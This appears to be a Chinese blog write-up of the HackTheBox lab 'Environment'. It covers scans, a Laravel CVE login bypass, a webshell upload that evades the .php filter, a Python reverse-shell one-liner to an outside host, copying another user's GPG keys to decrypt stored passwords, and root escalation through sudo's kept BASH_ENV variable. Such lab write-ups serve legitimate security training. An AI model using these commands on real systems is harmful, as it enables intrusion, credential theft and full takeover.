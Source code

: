 ```yaml
---
title: "HTB Environment"
subtitle: ""
date: 2025-06-02T14:35:59+08:00
lastmod: 2025-06-02T14:35:59+08:00
draft: false
author: ""
authorLink: ""
license: ""

tags: ["渗透"]
categories: ["靶场"]

featuredImage: ""
featuredImagePreview: ""

summary: ""

hiddenFromHomePage: false
hiddenFromSearch: false

toc:
  enable: true
  auto: true

mapbox:
share:
  enable: true
comment:
  enable: true
---
```


## 前言
一个很有意思的靶机，HTB中等难度

## 外网打点
按照惯例nmap+dirsearch
```
nmap -sC -sV 10.10.11.67        
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-05-31 20:35 CST
Stats: 0:01:21 elapsed; 0 hosts completed (1 up), 1 undergoing Connect Scan
Connect Scan Timing: About 46.63% done; ETC: 20:38 (0:01:29 remaining)
Stats: 0:02:17 elapsed; 0 hosts completed (1 up), 1 undergoing Connect Scan
Connect Scan Timing: About 54.81% done; ETC: 20:39 (0:01:50 remaining)
Stats: 0:03:05 elapsed; 0 hosts completed (1 up), 1 undergoing Connect Scan
Connect Scan Timing: About 61.43% done; ETC: 20:40 (0:01:54 remaining)
Stats: 0:05:10 elapsed; 0 hosts completed (1 up), 1 undergoing Connect Scan
Connect Scan Timing: About 79.51% done; ETC: 20:42 (0:01:19 remaining)
Stats: 0:06:55 elapsed; 0 hosts completed (1 up), 1 undergoing Connect Scan
Connect Scan Timing: About 94.33% done; ETC: 20:43 (0:00:25 remaining)
Stats: 0:06:55 elapsed; 0 hosts completed (1 up), 1 undergoing Connect Scan
Connect Scan Timing: About 94.34% done; ETC: 20:43 (0:00:25 remaining)
Nmap scan report for 10.10.11.67
Host is up (1.1s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.2p1 Debian 2+deb12u5 (protocol 2.0)
| ssh-hostkey:
|   256 5c:02:33:95:ef:44:e2:80:cd:3a:96:02:23:f1:92:64 (ECDSA)
|_  256 1f:3d:c2:19:55:28:a1:77:59:51:48:10:c4:4b:74:ab (ED25519)
80/tcp open  http    nginx 1.22.1
|_http-title: Did not follow redirect to http://environment.htb
|_http-server-header: nginx/1.22.1
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

 python dirsearch.py -u http://environment.htb -w /Users/zsm/CTF/tool/kali_word/dirb/wordlists/big.txt     
  _|. _ _  _  _  _ _|_    v0.4.3
 (_||| _) (/_(_|| (_| )

Extensions: php, asp, aspx, jsp, html, htm | HTTP method: GET | Threads: 25 | Wordlist size: 20469

Target: http://environment.htb/

[20:45:45] Scanning:
[20:49:52] 301 -   169B - /build  ->  http://environment.htb/build/
[20:49:52] 301 -   169B - /build  ->  http://environment.htb/build/
[20:52:23] 200 -     0B - /favicon.ico
[20:55:04] 200 -    2KB - /login
[20:55:04] 302 -   358B - /logout  ->  http://environment.htb/login
[20:55:10] 405 -  244KB - /mailing
[20:58:33] 200 -    24B - /robots.txt
[21:00:09] 301 -   169B - /storage  ->  http://environment.htb/storage/
[21:01:19] 200 -    2KB - /up
[21:01:20] 405 -  244KB - /upload
[21:01:39] 301 -   169B - /vendor  ->  http://environment.htb/vendor/

Task Completed
```

有个很明显的登录页面，进去看看，随便输入试试
![image.png](https://www.helloimg.com/i/2025/06/02/683d46f115717.png)
有报错回显，但是目前不知道有什么可以打的地方  

`mailing`这个也可以访问，并且看见`PHP 8.2.28 — Laravel 11.30.0`，在登录去打[CVE-2024-52301](https://github.com/Nyamort/CVE-2024-52301)，并且这个页面好像可以泄漏部分源码的，但是我没怎么看，直接按照cve的打了  

成功登录之后发现有图片上传的地方，传个马上去，注意`*.php`的话访问只会下载，所以要`*.php.`
```
------WebKitFormBoundaryILrUEQYf3y8xqp85
Content-Disposition: form-data; name="upload"; filename="zsm.php."
Content-Type: image/png
```
成功拿到路径
```
{"url":"http:\/\/environment.htb\/storage\/files\/zsm.php","uploaded":"http:\/\/environment.htb\/storage\/files\/zsm.php"}
```
这个马是可以用的，但是不知道为什么`bash`弹一直出不来，我就直接用python弹了
>python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.16.39",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'

可以拿到user.txt
```
Connection from 10.10.11.67:44294
www-data@environment:~/app/storage/app/public/files$ ls
ls
bethany.png  hish.png  jono.png
www-data@environment:~/app/storage/app/public/files$ cd ~
cd ~
www-data@environment:~$ ls
ls
app  html
www-data@environment:~$ cd /home
cd /home
www-data@environment:/home$ ls
ls
hish
www-data@environment:/home$ cd hish
cd hish
www-data@environment:/home/hish$ ls
ls
backup	root.sh  user.txt
```

## 提权
先提权到用户`hish`，在`backup`里面发现好东西
```
www-data@environment:/home/hish/backup$ ls
ls
keyvault.gpg
```
有个gpg文件，找了个通用的方法
```
# 1. 拷贝 hish 用户的密钥目录
cp -r /home/hish/.gnupg /tmp/mygnupg

# 2. 设置权限
chmod -R 700 /tmp/mygnupg

# 3. 确认是否存在私钥
gpg --homedir /tmp/mygnupg --list-secret-keys

# 4. 解密 keyvault.gpg
gpg --homedir /tmp/mygnupg --output /tmp/message.txt --decrypt /home/hish/backup/keyvault.gpg

www-data@environment:~$ ls /tmp
ls /tmp
message.txt
mygnupg
systemd-private-71ad283a49be45459b5ebdeb26ff8e08-systemd-logind.service-dwJgyf
systemd-private-71ad283a49be45459b5ebdeb26ff8e08-systemd-timesyncd.service-LkFYou
vmware-root_499-2117352874
www-data@environment:~$ cat /tmp/message.txt
cat /tmp/message.txt
PAYPAL.COM -> Ihaves0meMon$yhere123
ENVIRONMENT.HTB -> marineSPm@ster!!
FACEBOOK.COM -> summerSunnyB3ACH!!
www-data@environment:~$ su hish
su hish
Password: marineSPm@ster!!
```
这个时候就是用户权限了，先正常信息收集
```
hish@environment:/var/www$ sudo -l
sudo -l
[sudo] password for hish: marineSPm@ster!!

Matching Defaults entries for hish on environment:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin,
    env_keep+="ENV BASH_ENV", use_pty

User hish may run the following commands on environment:
    (ALL) /usr/bin/systeminfo
```
其中可以看到`env_keep`保留了`ENV`和`BASH_ENV`两个环境变量因此可以用于绕过
```
hish@environment:~$ echo 'bash -p' > exp.sh
echo 'bash -p' > exp.sh
hish@environment:~$ chmod +x exp.sh
chmod +x exp.sh
hish@environment:~$ sudo BASH_ENV=./exp.sh /usr/bin/systeminfo
sudo BASH_ENV=./exp.sh /usr/bin/systeminfo
root@environment:/home/hish# id
id
uid=0(root) gid=0(root) groups=0(root)
root@environment:/home/hish# cat /root/*
cat /root/*
1ec8b9b660747555f3ee577fc32f3250
cat: /root/scripts: Is a directory
```

## 总结
知道cve很关键，感觉有必要屯一点cve的poc了，pgp文件很关键，要知道怎么做，最后就是环境变量的提权